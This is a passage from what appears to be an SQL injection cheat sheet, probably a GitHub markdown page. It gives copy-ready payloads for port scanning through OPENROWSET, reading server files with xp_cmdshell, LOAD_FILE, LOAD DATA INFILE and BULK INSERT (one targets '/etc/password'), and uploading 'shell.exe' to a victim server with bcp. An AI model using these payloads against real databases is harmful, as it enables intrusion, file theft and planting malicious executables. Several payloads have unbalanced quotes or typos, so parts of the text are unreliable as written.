This does not return a result and you must infer the success by comparing it with a failed ping.

MS ping utility sends four ICMP echo requests which means that pinging a lie host takes 5-8 seconds. Pinging a non-existant host takes 20-30 seconds

### OPENROWSET port scanner

OPENROWSET is SQL Server method you can user to access the tables of a remote server. It needs an IP address and a port to connect too. It can be mis-used as a port scanner...

```
SELECT * from OPENROWSET('SQLOLEDB',
'uid=sa;pwd=something;Network=DMSSOCN;Address=<target>,<port>;timeout=<timeout in seconds', 'select 1') --
```

* port closed message: `SQL Server does not exist` or `access denied`
* port open messages: `General network error. Check your network documentation`

If errors are hidden, and the port is closed the connection will timeout according the timeout value specified above.

### Read the filesystem

Save the directory listing to a file.

```
EXEC master..xp_cmdshell 'dir c:\ > C:\some\public\folder\out.txt'--

SELECT LOAD_FILE('<text file path');
SELECT HEX(LOAD_FILE('<text file path'));

CREATE TABLE temptable(output longtext);
LOAD DATA INFILE '/etc/password' INTO TABLE temptable FIELDS
TERMINATED BY '\n' (output);
SELECT <fields> FROM <table> INTO DUMPFILE '<output path>'
```

Save the output to a table then read it.

```
CREATE TABLE filecontent(line varchar(8000));
BULK INSERT filecontent FROM '<target file>''
# remember to drop the table after extraction
# DROP TABLE filecontent;
```

### upload a file (w. advanced MSSQL features)

Get the database to connect to our database and recreate `shell.exe` on the victims database...

```
CREATE TABLE HelperTable (file text)
BULK INSERT HelperTable FROM 'shell.exe' WITH (codepage='RAW')
EXEC xp_cmdshell 'bcp "SELECT * FROM HelperTable" queryout shell.exe -c -Craw -S<server> -U<server username> -P<server password>'
```
